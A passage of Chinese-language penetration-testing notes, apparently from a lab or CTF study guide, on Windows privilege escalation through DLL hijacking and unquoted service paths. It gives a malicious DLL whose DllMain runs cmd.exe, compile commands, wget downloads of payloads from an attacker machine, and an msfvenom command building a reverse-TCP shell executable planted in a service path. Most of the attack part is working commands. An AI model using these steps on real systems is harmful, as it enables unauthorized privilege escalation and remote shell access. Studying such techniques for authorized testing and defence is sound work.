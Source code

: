 ```findstr```：搜索文件中的文本模式。
```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

安装Mingw 编译器
> apt install gcc-mingw-w64-x86-64

在kali上编译上面的代码成一个dll文件：
> x86_64-w64-mingw32-gcc hijackdll.c -shared -o hijackme.dll


靶机获取上面的dll文件：
> wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll


# 未加引号的服务路径

一个正常程序路径，比如：

```C:\Program Files\topservice folder\subservice subfolder\srvc.exe```

windows读取的应该是```C:\Program Files\topservice folder\subservice subfolder```的```srvc.exe```程序

但是有一种情况是，假如这个路径没有加引号，那么windows对于这个路径的读取处理依次为：

1. C:\Program.exe
2. C:\Program Files\topservice.exe
3. C:\Program Files\topservice folder\subservice.exe

即读取最近那个路径的第一个单词的同名exe文件，知道了这一点，如果我们可以将一个可执行文件放在我们知道服务正在寻找的位置，它可能由服务运行。 

此提权需要满足两个条件：
1. 能够写入路径上的文件夹
2. 能够重新启动服务


下面命令显示运行的服务，打印名称和路径
> wmic service get name,displayname,pathname,startmode


查找服务的二进制程序路径：
sc qc 服务名称


## 利用步骤

1. 生成一个可以利用的二进制反弹shell

> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.169 LPORT=4444 -f exe > common.exe

2. 在靶机里把该文件下载到可以使用的路径当中
> wget -O common.exe 10.13.21.169:8000/common.exe


3. 重启服务
> sc start 服务名称
```